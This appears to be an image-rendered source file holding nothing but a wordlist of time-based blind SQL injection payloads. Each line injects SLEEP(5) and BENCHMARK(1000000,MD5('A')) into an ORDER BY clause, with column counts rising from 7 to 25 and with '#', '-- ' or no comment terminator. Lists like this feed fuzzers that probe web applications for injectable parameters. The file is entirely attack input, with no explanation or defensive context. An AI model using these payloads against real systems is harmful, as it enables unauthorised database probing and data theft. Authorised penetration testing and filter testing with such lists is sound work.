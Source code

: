 ```
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#
ORDER BY 1,SLEEP(5),BENCHMARK(1000000,MD5('A')),4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
```